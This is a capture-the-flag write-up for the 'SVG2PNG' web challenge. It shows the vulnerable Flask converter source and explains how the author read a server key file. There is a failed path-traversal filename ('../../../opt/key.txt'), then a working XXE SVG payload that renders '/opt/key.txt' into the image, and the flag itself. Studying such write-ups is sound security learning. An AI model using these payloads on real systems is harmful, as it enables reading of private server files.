

#  SVG2PNG
tags: web

## Description

>Convert your vector images to a facebook friendly format!



The task provides the code running the converter:
```python
import json
import os
import sys
import io

from svglib.svglib import svg2rlg
from reportlab.graphics import renderPM
from tempfile import NamedTemporaryFile, TemporaryFile
from flask import Flask, request, render_template, send_file
from lxml import etree


app = Flask(__name__)

UPLOAD_FOLDER = "/tmp"
SOURCE = open(__file__).read()
INDEX = open("templates/index.html").read()

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
# Our secret keys have the form flag{...}
app.secret_key = open("/opt/key.txt")


def convert_svg_png(svgfile):
    tmpfile = NamedTemporaryFile(delete=False)
    tmpfile.write(svgfile.stream.read())
    tmpfile.close()
    drawing = svg2rlg(tmpfile.name)
    os.unlink(tmpfile.name)


    tmp_output = io.BytesIO()
    renderPM.drawToFile(drawing, tmp_output, fmt="PNG")
    tmp_output.seek(0)

    response = send_file(
        tmp_output,
        attachment_filename="converted.png",
        mimetype="image/png"
    )

    return response


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        # check if the post request has the file part

        if 'file' not in request.files:
            return "No file uploaded"
        else:
            svgfile = request.files['file']

            if svgfile.filename == '':
                return "No file provided"

            if svgfile:
                if os.fstat(svgfile.stream.fileno()).st_size > 400:
                    return "File to big!"
                else:
                    try:                    
                        return convert_svg_png(svgfile)
                    except:
                        return "Error while processing svg file"

    return INDEX


@app.route("/source")
def source():
    return SOURCE, 200,  {'Content-Type': 'text/plain'}


if __name__ == '__main__':
    app.run()
```

## Solution

To begin with I created a base svg image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="100mm">
</svg>
```

and a python script to automatically submit the image:
```python
import requests

url = "http://svgtopng.uni.hctf.fun/"
svg = "small.svg"
files = {'file': ('please_give_me_the_key.svg', open(svg,'rb')) }

response = requests.post(url, files=files)
print response

response_file = response._content
if len(response_file) < 100:
    print response_file
else:
    with open('flag.png', 'wb') as new_file:
        new_file.write(response_file)
```

Looking at the code the first idea was trying some path traversing via the image filename, changing the fourth line in the script like this:

```python
files = {'file': ('../../../opt/key.txt', open(svg,'rb')) }
```

This approach didn't give any result, so the next idea was trying to include the flag into the converted image. Since I didn't know xml syntax very well I googled a while, and after some trial I came up with this svg that includes the file *key.txt* as a text into the image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY  data SYSTEM
  'file:/../../opt/key.txt'> ]>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="10mm">
   <text x="10" y="15" fill="red">
      &data;
   </text>
</svg>
```

After running the script with the new svg, the response image contains the flag:


Here it is!

Btw check out the easter egg in the flag. I've no idea who he is but it's amazing:
**flag{[https://www.youtube.com/watch?v=e5nyQmaq4k4#N1c3_W0rk!](https://www.youtube.com/watch?v=e5nyQmaq4k4#N1c3_W0rk!)}**
